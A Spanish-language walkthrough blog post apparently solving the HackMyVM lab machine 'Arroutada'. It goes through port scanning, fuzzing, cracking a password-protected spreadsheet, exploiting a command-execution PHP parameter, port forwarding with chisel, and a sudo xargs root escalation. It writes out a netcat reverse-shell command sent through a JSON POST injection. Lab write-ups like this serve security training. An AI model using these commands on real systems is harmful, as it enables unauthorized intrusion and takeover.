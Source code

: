 ```yaml
---
layout      : post
title       : "Arroutada - HackMyVm"
author      : elc4br4
image       : /assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
optimized_image : /assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
description : En esta ocasión resolvemos la máquina Arroutada creada por Rijaba1 que está disponible en la plataforma de HackmyVm.
---
```


En esta ocasión resolvemos la máquina Arroutada creada por Rijaba1 que está disponible en la plataforma de HackmyVm.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
3. [Escalada de Privilegios](#priv-esc).

***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Comenzamos como siempre lanzando nmap para realizar un reconocimiento de puertos.

`nmap -p- -Pn -n --min-rate 5000 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled.png)

A continuación lanzo una serie de scripts básicos de nmap (sC) y el parámetro sV para descubrir los servicios y versiones que corren en cada puerto, en este caso solo en el puerto 80, ya que es el único puerto abierto.

`nmap -p80 -sCV -n -Pn 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%201.png)

Tenemos un servidor **apache httpd 2.4.54** y poco más, por lo que comienzo a enumerar.

# Explotación [#](explotación) {#explotación}

Tras acceder desde el navegador encontré lo siguiente:

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%202.png)

Parece una simple imagen pero podría tener algo escondido por lo que decido descargarla y lanzar herramienta **exiftool** para **analizar los metadatos de la imagen** y buscar posibles pistas.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%203.png)

Y encuentro una ruta “**/scout**” por lo que accedo a ella desde el navegador.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%204.png)

Vemos otra ruta **/scout/******/docs** pero nos falta descubrir la ruta que hay entre medias, por lo que toca **fuzzear** y para ello usaré **wfuzz**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%205.png)

Y encuentro la ruta **/j2**, por lo que ya tengo la ruta completa asique accedo a la misma desde el navegador.

Al accede encuentro un montón de archivos.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%206.png)

En el archivo **pass.txt** no hay nada de interés pero el archivo **shellfile.ods** si me llama la atención, la **extensión .ods** es de **LibreOffice** por lo que lo descargo y lo abro pero me pide contraseña…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%207.png)

Para poder craquearlo existe una utilidad de **John The Ripper** llamada **libreofficejohn2.py** con la que puedo generar el hash y craquearlo después.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%208.png)

Ahora lo crackeo con John y obtengo la contraseña.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%209.png)

**john11** es la contraseña.

Abro el archivo y encuentro esto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2010.png)

Encuentro otra ruta, esta vez un archivo php, por lo que podría haber un **RCE** asique pruebo a fuzzear de nuevo…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2011.png)

Veo que el parámetro a es el que necesito para ejecutar el RCE pero al intentarlo me arroja otro un error.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2012.png)

Se me ocurre combinar el parámetro **a con el b** y **fuzzear** de nuevo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2013.png)

Y por suerte lo consigo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2014.png)

Por lo que ahora intento obtener acceso al sistema introduciendo una **reverse shell en netcat**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2015.png)

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2016.png)

Consigo acceso a la máquina pero primero he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```

Tras **actualizar la tty** echo un vistazo a los usuarios existentes en la máquina y veo que existe el usuario **drito**, por lo que lo primero será migrarme a este usuario asique procedo a enumerar un poco…

Lo primero que hago es buscar **procesos existentes** pero no veo nada que me llame la atención, por lo que mi siguiente paso es buscar algún puerto abierto…

Hago uso del comando **netstat** pero no está instalado en el sistema por lo que pruebo a usar `ss -tulpn` y veo que existe el **puerto 8000** abierto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2017.png)

Para poder acceder a este puerto he de usar **chisel** o parecidos para poder efectuar un **Port Forwarding**.

Paso el binario de **chisel** a la máquina víctima y efectúo los siguientes comandos.

- En la máquina atacante

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2018.png)

- En la máquina víctima

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2019.png)

Ahora ya puedo acceder al puerto 8000 desde mi navegador, y encuentro lo siguiente.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2020.png)

Es una cadena ofuscada en Brainfuck, por lo que la desofusco y veo el contenido.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2021.png)

- all HackMyVM hackers!!

Pero no me sirve de nada por lo que regreso al navegador e inspecciono el código fuente por si me he dejado algo por ahí…

Y por suerte encuentro una ruta **/priv.php**

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2022.png)

Accedo a la ruta e inspecciono el código fuente

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2023.png)

Nos dice que falta un parámetro (command) y podemos ver que el propio parámetro ha de ir en json, por lo que vamos a probar a hacerle una petición POST con curl usando el parámetro command y metiendo la data en json.

Esto lo hago de la siguiente forma:

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "whoami;id;hostname"}´             
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2024.png)

Al ver que funciona lo que hago es intentar ganar acceso a la máquina a través de una reverse shell en netcat.

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "nc -e /bin/bash 192.168.0.18 1234"}´
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2025.png)

Consigo ganar acceso a la máquina como el usuario **drito**, por lo que lo siguiente paso es escalar privilegios a root, pero antes como de costumbre lo primero es actualizar la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS [#](priv-esc) {#priv-esc}

Tras actualizar la tty lanzo el comando `sudo -l.`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2026.png)

Puedo ejecutar el binario xargs como root sin contraseña por lo que lo primero que se me ocurre al tratarse de un binario es dirigirme a [gtfobins](https://gtfobins.github.io/).

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2027.png)

Ejecuto el comando y… me convierto en **root**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2028.png)

Gracias Rijaba por esta máquina!!!! 
